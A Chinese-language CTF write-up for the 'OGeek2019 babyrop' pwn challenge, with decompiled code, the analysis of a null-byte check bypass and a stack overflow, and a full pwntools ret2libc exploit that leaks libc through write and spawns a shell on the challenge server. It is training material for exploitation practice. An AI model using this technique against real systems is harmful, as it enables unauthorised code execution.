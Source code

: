 ```yaml
---
author: 
  name: Zephyr
title: OGeek2019 babyrop
date: 2022-3-21 11:20:02
permalink: /pages/2e1547494524d183
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# OGeek2019 babyrop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/OGeek2019_babyrop/pwn'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main()
{
  int buf; // [esp+4h] [ebp-14h]
  char v2; // [esp+Bh] [ebp-Dh]
  int fd; // [esp+Ch] [ebp-Ch]

  sub_80486BB();
  fd = open("/dev/urandom", 0);
  if ( fd > 0 )
    read(fd, &buf, 4u);
  v2 = sub_804871F(buf);
  sub_80487D0(v2);
  return 0;
}
```

sub_804871F函数如下

```c
int __cdecl sub_804871F(int a1)
{
  size_t v1; // eax
  char s; // [esp+Ch] [ebp-4Ch]
  char buf[7]; // [esp+2Ch] [ebp-2Ch]
  unsigned __int8 v5; // [esp+33h] [ebp-25h]
  ssize_t v6; // [esp+4Ch] [ebp-Ch]

  memset(&s, 0, 0x20u);
  memset(buf, 0, 0x20u);
  sprintf(&s, "%ld", a1);
  v6 = read(0, buf, 0x20u);
  buf[v6 - 1] = 0;
  v1 = strlen(buf);
  if ( strncmp(buf, &s, v1) )
    exit(0);
  write(1, "Correct\n", 8u);
  return v5;
}
```

sub_80487D0函数如下

```c
ssize_t __cdecl sub_80487D0(char a1)
{
  ssize_t result; // eax
  char buf; // [esp+11h] [ebp-E7h]

  if ( a1 == 127 )
    result = read(0, &buf, 0xC8u);
  else
    result = read(0, &buf, a1);
  return result;
}
```

Gadget

```shell
ROPgadget --binary pwn --string "/bin/sh\x00"                             
Strings information
============================================================
```

## 思路分析

1. 程序分析:
   - 程度首先获取一个随机数，将该值用`strlen`函数与输入数据进行对比，不同则会终止程序，若相同则将`v5`返回，作为`sub_80487D0`函数的参数，若`v5=127`，则可以为`buf`写入`0xC8`字节数据，否则写入`v5`长度的数据
1. 目前信息：
   - `plt`表内没有`system`
   - 程序本体内并没有`/bin/sh`字符串
   - No PIE
3. 思路
   - 若能控制`sub_80487D0`函数的实参`v2`就可以实现超长字符写入造成栈溢出覆盖返回地址
   - `v2`是`sub_804871F`函数的返回值，在该函数内的输入点`buf`处是可以写入`0x20`字节的数据，虽然不够直接覆盖返回地址，但还是可以实现溢出修改上方`v5`即最后返回的值
   - 但要成功返回`v5`还要绕过与随机字符串比较的的过程，这里通过`strlen`函数遇到`\0`即终止并返回的特性，构造首位是`\0`的特殊输入数据绕过对比失败后的程序退出
   - 因该题`plt`表内并无`system`函数，也无`/bin/sh`字符串，所以应该首先泄漏`libc`和对应函数地址，利用泄漏到的信息，二次溢出获得`shell`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/OGeek2019_babyrop/pwn'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 29092)
elf = ELF(pwnfile)
payload = flat(['\0'*7, 255])
# 前置\0绕过推出，v5覆盖为255
io.sendline(payload)
io.recvuntil("Correct\n")
padding = 0xe7+4
main_addr = 0x8048825
write_plt = 0x8048578
write_got = 0x8049FEC
payload = flat(['a'*padding, write_plt, main_addr, 1, write_got, 4])
io.sendline(payload)
leak_write_addr = u32(io.recv(4))  # write真实地址
libc = LibcSearcher('write', leak_write_addr)
# 泄漏libc
libcbase = leak_write_addr-libc.dump('write')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
payload = flat(['\0'*7, 255])
io.sendline(payload)
io.recvuntil("Correct\n")
payload = flat(['a'*padding, system_addr, 0xdeadbeef, bin_sh_addr])
# 获得shell
io.send(payload)
io.interactive()
```